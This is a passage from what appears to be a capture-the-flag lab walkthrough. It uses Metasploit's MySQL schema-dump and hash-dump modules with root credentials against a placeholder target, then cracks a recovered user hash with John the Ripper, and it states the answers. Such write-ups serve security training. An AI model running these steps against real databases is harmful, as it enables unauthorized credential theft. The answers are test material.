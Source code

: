- Awesome, you have now dumped the tables, and column names of the whole database. But we can do one better... search for and select the "mysql_hashdump" module. What's the module's full name?

```bash
msf6 auxiliary(scanner/mysql/mysql_schemadump) > search mysql_hashdump
```

**=> Answer: `auxiliary/scanner/mysql/mysql_hashdump`**

- <p>Again, I'll let you take it from here. Set the relevant options, run the exploit. What non-default user stands out to you?<br /></p>

```bash
msf6 auxiliary(admin/mysql/mysql_schemadump) > use 0
msf6 auxiliary(scanner/mysql/mysql_hashdump) > set PASSWORD password
msf6 auxiliary(scanner/mysql/mysql_hashdump) > set USERNAME root
msf6 auxiliary(scanner/mysql/mysql_hashdump) > set RHOSTS <MACHINE_IP>
msf6 auxiliary(scanner/mysql/mysql_hashdump) > exploit
```

![Guide image](./screenshots/network-services-2-20.png)
**=> Answer: `carl`**

- <p>Another user! And we have their password hash. This could be very interesting. Copy the hash string in full, like: bob:*HASH to a text file on your local machine called "hash.txt". </p><p>What is the user/hash combination string?<br /></p>

```bash
echo "carl:*EA031893AA21444B170FC2162A56978B8CEECE18" >> hash.txt
john hash.txt
```

**=> Answer: `carl:*EA031893AA21444B170FC2162A56978B8CEECE18`**

- <p>Now, we need to crack the password! Let's try John the Ripper against it using: "<i>john hash.txt</i>" what is the password of the user we found? <br /></p>
